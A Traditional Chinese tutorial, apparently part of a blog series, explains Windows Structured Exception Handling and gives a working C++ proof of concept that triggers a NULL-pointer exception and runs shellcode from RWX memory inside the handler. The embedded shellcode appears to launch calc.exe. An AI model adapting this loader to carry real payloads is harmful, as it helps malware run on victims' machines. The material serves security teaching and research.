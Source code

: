 ## SEH
### 原理
[SEH](https://docs.microsoft.com/zh-tw/cpp/cpp/structured-exception-handling-c-cpp?view=msvc-160)，全名 Structured Exception Handling，是用來處理程式的例外狀況。使用者可以在程式中處理發生的例外，例如寫入不可寫的位址。SEH 可以讓程式碼更具可攜性和彈性，也可以確保資源會在執行意外終止時正確釋放

在[【Day 15】從零開始的 Debug 生活 - Debugger 原理](https://ithelp.ithome.com.tw/articles/10274999)、[【Day 16】從一開始的 Anti-Debug 生活 - Anti-Debug](https://ithelp.ithome.com.tw/articles/10275614)、[【Day 17】從二開始的 Anti-Anti-Debug 生活 - Anti-Anti-Debug](https://ithelp.ithome.com.tw/articles/10276170) 我們有提到 Debugger 的實作方式也是透過觸發 EXCEPTION_BREAKPOINT 的方式下斷點，然後也用同個方式故意製造例外來 Anti-Debug，最後也講解該怎麼繞過 Anti-Debug 達到 Anti-Anti-Debug。

### 利用
可以故意觸發例外，並在處理例外的地方執行 Shellcode。

### 實作步驟
1. 用 VirtualAlloc 分配記憶體空間給 Shellcode，記憶體保護為 PAGE_EXECUTE_READWRITE，並把 Shellcode 放進這塊記憶體
2. 試圖寫入到 NULL Pointer，觸發例外
3. 處理例外，在裡面執行 Shellcode

### POC
程式專案可以參考我的 GitHub [zeze-zeze/2021iThome](https://github.com/zeze-zeze/2021iThome/tree/master/Shellcode%E8%88%87%E4%BB%96%E7%9A%84%E5%BF%AB%E6%A8%82%E5%A4%A5%E4%BC%B4/ShellcodeLoaderSEH)。
```cpp=
#include <windows.h>

int main()
{
	char shellcode[] = "\x50\x53\x51\x52\x56\x57\x55\x89\xE5\x83\xEC\x18\x31\xF6\x56\x68\x78\x65\x63\x00\x68\x57\x69\x6E\x45\x89\x65\xFC\x64\x8B\x1D\x30\x00\x00\x00\x8B\x5B\x0C\x8B\x5B\x14\x8B\x1B\x8B\x1B\x8B\x5B\x10\x89\x5D\xF8\x8B\x43\x3C\x01\xD8\x8B\x40\x78\x01\xD8\x8B\x48\x24\x01\xD9\x89\x4D\xF4\x8B\x78\x20\x01\xDF\x89\x7D\xF0\x8B\x50\x1C\x01\xDA\x89\x55\xEC\x8B\x50\x14\x31\xC0\x8B\x7D\xF0\x8B\x75\xFC\x31\xC9\xFC\x8B\x3C\x87\x01\xDF\x66\x83\xC1\x08\xF3\xA6\x74\x0A\x40\x39\xD0\x72\xE5\x83\xC4\x24\xEB\x3F\x8B\x4D\xF4\x8B\x55\xEC\x66\x8B\x04\x41\x8B\x04\x82\x01\xD8\x31\xD2\x52\x68\x2E\x65\x78\x65\x68\x63\x61\x6C\x63\x68\x6D\x33\x32\x5C\x68\x79\x73\x74\x65\x68\x77\x73\x5C\x53\x68\x69\x6E\x64\x6F\x68\x43\x3A\x5C\x57\x89\xE6\x6A\x0A\x56\xFF\xD0\x83\xC4\x44\x5D\x5F\x5E\x5A\x59\x5B\x58\xC3";

	// 1. 用 VirtualAlloc 分配記憶體空間給 Shellcode，記憶體保護為 PAGE_EXECUTE_READWRITE，並把 Shellcode 放進這塊記憶體
	LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, shellcode, sizeof(shellcode));

	// 2. 試圖寫入到 NULL Pointer，觸發例外
	int* p = 0x00000000;
	_try
	{
		*p = 13;
	}
		_except(EXCEPTION_EXECUTE_HANDLER)
	{
		// 3. 處理例外，在裡面執行 Shellcode
		((void(*)())Memory)();
	}
	return 0;
}
```
